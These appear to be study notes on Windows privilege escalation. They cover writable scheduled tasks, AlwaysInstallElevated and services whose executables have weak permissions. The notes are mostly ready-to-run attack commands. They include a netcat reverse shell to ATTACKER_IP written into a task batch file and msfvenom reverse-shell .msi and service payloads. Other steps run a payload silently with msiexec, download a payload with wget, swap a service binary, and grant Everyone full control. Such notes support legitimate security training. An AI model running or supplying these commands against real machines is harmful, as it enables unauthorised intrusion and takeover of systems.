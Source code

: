 
# Quick Wins

### Scheduled Tasks
`schtasks` - to list scheduled tasks that may have lost a binary, or are using a modifiable binary
`schtasks /query /tn \TASK_PATH /fo list /v`
Check "Task to Run" and "User to Run" and check see if task is writeable, and if that user has more privileges than the current user
Check permissions with `icacls` where (F) is "full access"
ex. where we have full access to the file. Write to the file to initiate a reverse shell with `echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`

### AlwaysInstallElevated
Windows installer files = .msi files, can be configured to run at higher privileges from any user account.
This requires 2 values to be set:
`reg query HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer` and `reg query HKEY_LOCAL_MACHINE ...(same path)`
Then use msfvenom to generate a malicious .msi payload:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=LOCAL_IP LPORT=PORT -f msi > EXPLOIT.msi`, with a listener ready to receive connection
`msiexec /quiet /qn /i C:\Windows\Temp\EXPLOIT.msi` to run exploit, no UI, and logging status updates

  

# Service Misconfigurations

### Windows Services
services are managed by Service Control Manager (SCM), it changes service states and configs. Every service is started by an executable run by SCM. Service executables have special functionality to spin up as services, and will specify what user account it will run under. 
`sc qc apphostsvc` - queries the config information for a service (apphostsvc)
Look at "BINARY_PATH_NAME" and "SERVICE_START_NAME".
Discretionary Access Control List DACL gives detailed permissions for each user on a service.
Service configs are in `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\` - executable will be under "ImagePath" and user as "Object Name"

### Insecure Permissions on Service Executable
If a service executable has insecure permissions, we can overwrite it and restart the process to execute our code
Example.
1. `sc qc WindowsScheduler` -> `icacls PATH\WService.exe` show that group: Everyone has modify privileges
2. create msfvenom payload `msfvenom -p windows/x64/shell_reverse_tcp LHOST=... LPORT=... -f exe-service > FILE.exe`
3. serve on python server and grab with wget (with powershell) on target `wget http://LOCAL:PORT/FILE.exe -O FILE2.exe` (
4. Replace WService.exe with new shell.exe
	- cd to PATH, `move` old file to .bkp backup, `move` in new service exe as same name, and `icalcs WService.exe /grant Everyone:F` to allow full permissions
5. `sc stop windowsscheduler`, `sc start windows1scheduler` (PowerShell uses sc.exe since sc is aliased to Set-Content)
6. Receive reverse shell on linux with svcuser1 privileges
